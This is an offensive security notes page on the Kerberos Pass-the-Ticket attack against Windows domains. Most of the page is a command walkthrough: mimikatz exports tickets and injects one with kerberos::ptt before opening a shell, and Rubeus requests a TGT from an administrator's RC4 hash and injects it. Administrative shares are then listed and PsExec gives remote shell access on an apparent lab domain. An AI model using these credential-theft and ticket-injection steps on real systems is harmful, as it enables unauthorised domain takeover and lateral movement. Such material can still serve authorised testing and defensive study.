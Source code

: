 # Pass The Ticket

## <mark style="color:red;">Pass The Ticket</mark>

<mark style="color:green;">**In a pass the ticket attack access is gained to a resource of a system (for example the administrative shares) using a Kerberos ticket that was generated or obtained from a compromised machine (TGT or TGS)**</mark>

{% hint style="warning" %}
PtT affects all windows platforms relying on kerberos.
{% endhint %}

run these in mimikatz:

```
kerberos::list
kerberos::list /export
```

we have the tickets that were saved inside the directory where we had the mimikatz executable.

![](<../../../.gitbook/assets/image (198).png>)

We go back to the mimikatz terminal. Here, we pass the ticket with the help of ptt module inside the Kerberos module followed by the name of the ticket that we want to pass.to perform the actions as the user that we passed the ticket for we decided to get a cmd as that user. This can be accomplished using the misc::cmd command as shown in the image given below.

```
kerberos::ptt ticket.kirbi
misc::cmd
```

![](<../../../.gitbook/assets/image (195).png>)

## <mark style="color:red;">Rubeus</mark>

****[**rubeus**](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries) **is a C# toolset for raw Kerberos interaction and abuses.**

we will use extract the tickets using Rubeus. This can be done with the help of the asktgt module. Although it is not so sneaky method it gets the work done. We need the domain name, User, Password Hash. When used normally will give the base64 encoded TGT ticket. But Let’s Pass the Ticket as well in the same step

```
Rubeus.exe asktgt /domain:ignite.local /user:Administrator /rc4: 32196b56ffe6f45e294117b91a83bf38 /ptt
```

or pass the ticket with kirbi file:

```
Rubeus.exe ptt /ticket:ticket.kirbi
```

now we have the ticket for user administrator and we can access shares:

```
dir \\overloadDC\\secret_shares
```

or get shell access:

```
PsExec.exe \\192.168.1.105 cmd.exe
```

